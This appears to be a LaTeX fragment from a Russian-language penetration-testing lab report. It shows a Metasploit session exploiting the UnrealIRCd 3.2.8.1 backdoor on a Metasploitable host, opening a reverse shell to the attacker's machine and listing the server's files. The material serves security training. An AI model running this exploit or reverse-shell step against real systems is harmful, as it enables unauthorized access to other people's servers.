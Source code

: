 \documentclass[10pt,a4paper]{report}
\begin{document}
		\begin{lstlisting}
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor 
msf exploit(unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  6667             yes       The target port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(unreal_ircd_3281_backdoor) > set RHOST 169.254.120.103
RHOST => 169.254.120.103
msf exploit(unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse TCP double handler on 169.254.120.101:4444 
[*] Connected to 169.254.120.103:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo e5gPeh87ayDT0eQb;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "e5gPeh87ayDT0eQb\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (169.254.120.101:4444 -> 169.254.120.103:38206) at 2016-05-14 17:46:03 +0300

pwd
/etc/unreal
ls -l
total 392
-rw------- 1 0 root   1365 May 20  2012 Donation
-rw------- 1 0 root  17992 May 20  2012 LICENSE
drwx------ 2 0 root   4096 May 20  2012 aliases
--w----r-T 1 0 root   1175 May 20  2012 badwords.channel.conf
--w----r-T 1 0 root   1183 May 20  2012 badwords.message.conf
--w----r-T 1 0 root   1121 May 20  2012 badwords.quit.conf
-rwx------ 1 0 root 242894 May 20  2012 curl-ca-bundle.crt
-rw------- 1 0 root   1900 May 20  2012 dccallow.conf
drwx------ 2 0 root   4096 May 20  2012 doc
--w----r-T 1 0 root  49552 May 20  2012 help.conf
-rw------- 1 0 root   5212 Mar 29 01:54 ircd.log
-rw------- 1 0 root      6 Mar 28 05:33 ircd.pid
-rw------- 1 0 root      5 Mar 29 03:08 ircd.tune
drwx------ 2 0 root   4096 May 20  2012 modules
drwx------ 2 0 root   4096 May 20  2012 networks
--w----r-T 1 0 root   5656 May 20  2012 spamfilter.conf
drwx------ 2 0 root   4096 Mar 28 05:33 tmp
-rwx------ 1 0 root   4042 May 20  2012 unreal
--w----r-T 1 0 root   3884 May 20  2012 unrealircd.conf

		\end{lstlisting}
		Как видно из вывода, доступ к консоли был получен и было выведено содержимое директории.
		
\end{document}
